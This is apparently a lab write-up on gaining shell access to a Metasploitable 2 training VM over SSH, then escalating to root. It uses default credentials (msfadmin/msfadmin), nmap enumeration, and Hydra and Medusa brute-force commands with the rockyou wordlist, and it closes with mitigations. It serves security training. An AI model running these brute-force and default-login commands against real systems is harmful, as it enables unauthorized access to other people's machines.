 # SSH - Weak Credential Exploit

### Service Overview

*SSH (Secure Shell)* is a cryptographic protocol used to securely access remote systems. On Metasploitable 2, SSH runs on port 22, allowing secure terminal sessions. However, due to default or weak credentials, it's often possible to gain unauthorized access.

---

## Vulnerabbility Overview

- **Name**: SSH Weak Credential Login
- **CVE**: None (misconfiguration issue, not a code vulnerability)
- **Impact**: Unauthorized remote shell access
- **Access Required**: None (brute-force or known credentials)
- **Attack Type**: Credential-based Bruteforce

```
The SSH service itself is not vulnerable. The issue lies in the fact that Metasploitable 2 contains several default user accounts (e.g., msfadmin, user, postgres, root) with known or weak passwords (usually the same as the username).
```
---
## Service Detection and Enumeration

```bash
nmap -sV -v -p 22 <target_ip>
```

![SSH_Nmap_Service_Scan](./SSH_Nmap_Service_Scan.png)

### Exploitation (Manual: Default/Weak Passwords)

```bash
ssh msfadmin@<target_ip>

#password: msfadmin
```

Most OpenSSH clients have disabled support for older key exchange algorithms like ssh-rsa and ssh-dss which Metasploitable 2 still uses. Use this command to force use ssh-rsa key-type:

```
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@10.0.2.7
```


### Exploitation (Automated: Hydra)

```bash
hydra -l msfadmin -p /usr/share/wordlists/rockyou.txt ssh://<target_ip>
```

 Hydra may not work due to outdated SSH algorithms on the Metasploitable 2 target. The server only supports ssh-rsa and ssh-dss, which newer clients may refuse. Use Medusa or adjust client configurations accordingly.


```bash
medusa -h 10.0.2.7 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ssh
```

You can replace `rockyou.txt` with a custom password list for a more targeted attack

![Medusa_SSH_BruteForce](./SSH_Bruteforce_Medusa.png)

![Logging_In](./Default_Credential_SSH_login.png)

## Privilge Escalation

As seen, a local user shell has been obtained, however, Privelege Escalation is possible here.



![sudo -l](./SSH_Priv_Esc.png)

Again, default password can be used to escalate privileges.


### Results

- Successfully gained shell using weak/default credentials
- Demonstrates the danger of weak/default credentials
- Performed local privelege escaltion to gain root shell.

### Mitigation

- Disable default accounts and remove any unnecessary user accounts from the system.
- Enforce strong, unique passwords for all user accounts to avoid weak credentials.
- Use key-based authentication for SSH and disable password-based logins.
- Keep SSH configurations up to date, ensuring the server only supports secure key exchange algorithms
- Limit the use of sudo by configuring `/etc/sudoers` to only allow necessary users access and restrict commands they can execute.
- Use least privilege principle: Assign users only the minimum required privileges to perform their tasks.


